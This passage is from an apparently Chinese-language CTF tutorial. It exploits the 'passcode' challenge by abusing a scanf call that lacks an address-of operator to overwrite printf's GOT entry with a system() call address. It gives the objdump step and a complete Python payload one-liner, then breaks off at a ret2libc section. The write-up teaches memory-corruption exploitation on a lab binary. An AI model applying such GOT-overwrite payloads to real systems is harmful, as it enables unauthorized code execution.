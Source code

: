 ```
    welcome();
    login();

    // something after login...
    printf("Now I can safely trust you that you have credential :)\n");
    return 0;   
}

```

编译后的程序见附件,32位 linux

感觉锐锐_z的指点

1 分析程序可知,scanf时,没有用取地址符,会使用栈上的数据作为指针存放输入的数据,而我们第一次输入的数据就是在栈上,简单调试可知,在welcome()函数中的name的最后4字节会在login()函数中被用作地址指针

2 这样,我们就获得了修改任意地址数据的一次机会

3 分析程序可知如果我们用后面调用system()的地址覆盖了printf()在GOT中的指针,那么在第二次login()中第二次调用printf()时就会直接去调用system()

4 现在我们需要知道两个东西,一是GOT中printf()的地址,二是程序中调用system()的地址

```
objdump -R passcode

```

![enter image description here](http://drops.javaweb.org/uploads/images/6eb1f4e305b72044e673139cd4c8fa44af96b70f.jpg)

即可获得`printf()`在的地址`0804a000`这是攻击目标,

然后打开gdb,运行到调用system()的地方,为什么我们可以直接使用这个地址呢,因为linux下面的程序默认没有随机化code段,

![enter image description here](http://drops.javaweb.org/uploads/images/83f34ac92568a25f2a597ab1cc28f5798108d06d.jpg)

要写入的值即为`0x080485e3`

5 最后得到

```
python -c "print('a'*96+'\x00\xa0\x04\x08'+'\n'+'134514147\n')" | ./passcode

```

`134514147`即为`0x080485e3`

![enter image description here](http://drops.javaweb.org/uploads/images/88e3987845a1268ae45e9a3d882c271eef7bd667.jpg)

成功改变了程序流程,读出flag文件的内容,注意这里需要你新建一个名叫flag的文件

**_2.3 ret2libc技术_**

2.3.1 使用范围

当系统打开DEP时,我们不能自己直接在栈上放shellcode,就使用几乎每个linux系统都会自带的libc中的代码.

2.3.2 原理
